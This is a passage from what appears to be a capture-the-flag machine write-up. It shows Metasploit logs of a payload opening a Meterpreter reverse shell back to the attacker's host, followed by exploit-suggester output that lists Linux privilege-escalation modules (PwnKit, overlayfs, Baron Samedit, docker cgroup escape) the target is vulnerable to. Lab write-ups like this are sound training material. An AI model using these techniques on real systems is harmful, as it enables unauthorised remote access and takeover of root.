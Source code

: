 ```bash
[*] 10.10.11.125:1337 - Writing payload at 00007ffff7fd0103...
[*] 10.10.11.125:1337 - Executing the payload...
[*] Sending stage (3045380 bytes) to 10.10.11.125
[*] Meterpreter session 1 opened (10.10.14.7:9000 -> 10.10.11.125:46794) at 2025-03-10 07:04:06 -0600

meterpreter > getuid
Server username: user
```



# Shell as `root`

### Exploit Suggestor (Metasploit)

```bash
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.11.125 - Collecting local exploits for x64/linux...
[*] 10.10.11.125 - 198 exploit checks are being tried...
[+] 10.10.11.125 - exploit/linux/local/cve_2021_3493_overlayfs: The target appears to be vulnerable.
[+] 10.10.11.125 - exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec: The target is vulnerable.
[+] 10.10.11.125 - exploit/linux/local/cve_2022_0995_watch_queue: The target appears to be vulnerable.
[+] 10.10.11.125 - exploit/linux/local/docker_cgroup_escape: The target is vulnerable. IF host OS is Ubuntu, kernel version 5.4.0-80-generic is vulnerable
[+] 10.10.11.125 - exploit/linux/local/pkexec: The service is running, but could not be validated.
[+] 10.10.11.125 - exploit/linux/local/su_login: The target appears to be vulnerable.
[+] 10.10.11.125 - exploit/linux/local/sudo_baron_samedit: The service is running, but could not be validated. sudo 1.8.31 may be a vulnerable build.
[+] 10.10.11.125 - exploit/linux/local/sudoedit_bypass_priv_esc: The target appears to be vulnerable. Sudo 1.8.31.pre.1ubuntu1.2 is vulnerable, but unable to determine editable file. OS can NOT be exploited by this module
[*] Running check method for exploit 70 / 70
[*] 10.10.11.125 - Valid modules for session 1:
============================

 #   Name                                                                Potentially Vulnerable?  Check Result
 -   ----                                                                -----------------------  ------------
 1   exploit/linux/local/cve_2021_3493_overlayfs                         Yes                      The target appears to be vulnerable.
 2   exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec                 Yes                      The target is vulnerable.
 3   exploit/linux/local/cve_2022_0995_watch_queue                       Yes                      The target appears to be vulnerable.
 4   exploit/linux/local/docker_cgroup_escape                            Yes                      The target is vulnerable. IF host OS is Ubuntu, kernel version 5.4.0-80-generic is vulnerable                                                                                        
 5   exploit/linux/local/pkexec                                          Yes                      The service is running, but could not be validated.
 6   exploit/linux/local/su_login                                        Yes                      The target appears to be vulnerable.
 7   exploit/linux/local/sudo_baron_samedit                              Yes                      The service is running, but could not be validated. sudo 1.8.31 may be a vulnerable build.                                                                                           
 8   exploit/linux/local/sudoedit_bypass_priv_esc                        Yes                      The target appears to be vulnerable. Sudo 1.8.31.pre.1ubuntu1.2 is vulnerable, but unable to determine editable file. OS can NOT be exploited by this module                 
```
